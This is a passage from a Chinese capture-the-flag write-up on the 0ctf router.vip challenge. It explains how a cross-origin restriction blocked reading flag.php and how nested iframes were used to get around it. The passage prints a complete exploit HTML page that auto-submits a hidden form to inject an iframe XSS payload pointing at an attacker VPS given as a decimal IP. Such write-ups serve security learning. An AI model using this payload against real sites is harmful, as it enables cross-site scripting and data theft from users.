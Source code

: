 ![shell1](https://moxiaoxi.info/img/post/0ctf/shell1.png)

说明，现在发送数据这个功能是成功的。(其实，这里没有获取到数据，只是https协议的一些乱码数据)

但是，为什么现在没有弹出真正的flag呢，因为iframe这种方式会新建一个层，这样就不再在一个源上了。

```
XMLHttpRequest cannot load https://router.vip/flag.php. No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'https://104.224.169.90' is therefore not allowed access.
```

chrome会报这个错。梳理一下现在的逻辑，我们在preivew页面，让其iframe引用一个html，然后执行html的里面的js，js中对https://router.vip/flag.php发送请求。但是，因为router.vip/flag.php的头没有设置跨域资源共享。我们也没办法去控制router.vip，使其增加头'Access-Control-Allow-Origin' '*';

**所以，这里就gg了。。**

然后，我们想到了出题人博客中，火日大佬的那种思路，两个iframe互相通信，就是前面题目的思路。

用一个iframe去触发xss，新建一个iframe，加载我们VPS的index.html.

index.html,有两个iframe，第一个iframe访问flag.php,第二个页面iframe访问preview页面，同时往preview构造一个表单触发xss，让其再iframe一个VPS的数据。。。说起来好混乱

上代码：

index.html

```html
<html>
<head>
</head>
<body>
<iframe id='1' src='https://router.vip/flag.php'>
</iframe>

<form id="exploit" action="https://router.vip/preview.php" method="POST" target="profile">
    <input name="payload" type="hidden" value="<iframe src=\\3396350939">
</form>

<iframe id='2' name="profile" src='https://router.vip/preview.php'>
</iframe>
<script>document.getElementById('exploit').submit();</script>
</body>
</html>
```

然后，在另外一个VPS（3396350939）上去显示前一个iframe的数据

其实这样还是违反同源的，主要这里还是用iframe这个标签触发。。。导致，会新生成一个源和本来的不一样。

画了个草图：

![origin1](https://moxiaoxi.info/img/post/0ctf/origin1.png)

整个逻辑就是这样，因为iframe会生成一个源，iframe1，iframe2之所以同源是因为他们两在同一个域。

回顾33c3的题 **yolovault**

题目内容参考这两个博客：
